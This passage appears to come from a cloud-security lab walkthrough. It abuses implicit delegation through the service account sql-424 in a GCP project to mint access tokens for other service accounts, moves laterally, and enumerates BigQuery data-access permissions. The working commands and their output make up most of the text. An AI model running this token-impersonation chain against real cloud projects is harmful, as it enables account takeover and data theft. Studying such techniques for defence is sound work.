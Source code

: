 Let's see if any of the other service accounts (including `sql-424`) allow us to generate an access token via impersonation through the delegate chain
```
└─$ for sa in \
  analytics@gr-proj-4.iam.gserviceaccount.com \
  payments@gr-proj-4.iam.gserviceaccount.com \
  platform-middleware@gr-proj-4.iam.gserviceaccount.com \
  sql-424@gr-proj-4.iam.gserviceaccount.com
do
  curl -s -X POST "https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/${sa}:generateAccessToken?access_token=$(gcloud auth print-access-token)" \
    -H "Content-Type: application/json" \
    --data '{
      "delegates": ["projects/-/serviceAccounts/sql-424@gr-proj-4.iam.gserviceaccount.com"],
      "scope": ["https://www.googleapis.com/auth/cloud-platform"]
    }' | jq .
done
{
  "accessToken": "<REDACTED>",                                                                                                                                        
  "expireTime": "2025-09-07T18:23:06Z"
}
{
  "error": {
    "code": 403,
    "message": "Permission 'iam.serviceAccounts.getAccessToken' denied on resource (or it may not exist).",
    "status": "PERMISSION_DENIED",
    "details": [
<SNIP>

```

We're able to leverage the implicit delegation on `sql-424@gr-proj-4.iam.gserviceaccount.com` to generate an access token for `analytics@gr-proj-4.iam.gserviceaccount.com` and move laterally to this new execution context. 

Set the token to a variable e.g. analyticstoken="<access_token>" and also save it to a file e.g. token.txt .

Let's run `gcp_perm_checker.py` again. 
```
└─$ ./gcp_perm_checker.py -Token $analyticstoken -ProjectID gr-proj-4
Using provided access token for authentication.
Authenticated successfully.
Accessible permissions: ['resourcemanager.projects.get']
Found permissions: ['analyticshub.dataExchanges.get', 'analyticshub.dataExchanges.getIamPolicy', 'analyticshub.dataExchanges.list', 'analyticshub.listings.get', 'analyticshub.listings.getIamPolicy', 'analyticshub.listings.list']
Found permissions: ['bigquery.datasets.get']                                    
Found permissions: ['bigquery.datasets.getIamPolicy', 'bigquery.models.export', 'bigquery.models.getData', 'bigquery.models.getMetadata', 'bigquery.models.list']
Found permissions: ['bigquery.routines.get', 'bigquery.routines.list']          
Found permissions: ['bigquery.tables.createSnapshot', 'bigquery.tables.export', 'bigquery.tables.get', 'bigquery.tables.getData', 'bigquery.tables.getIamPolicy', 'bigquery.tables.list', 'bigquery.tables.replicateData']
Found permissions: ['dataplex.datascans.get', 'dataplex.datascans.getData', 'dataplex.datascans.getIamPolicy', 'dataplex.datascans.list']
Scanning: 100%|████████████████████████████████████████████| Elapsed Time: 07:17
```
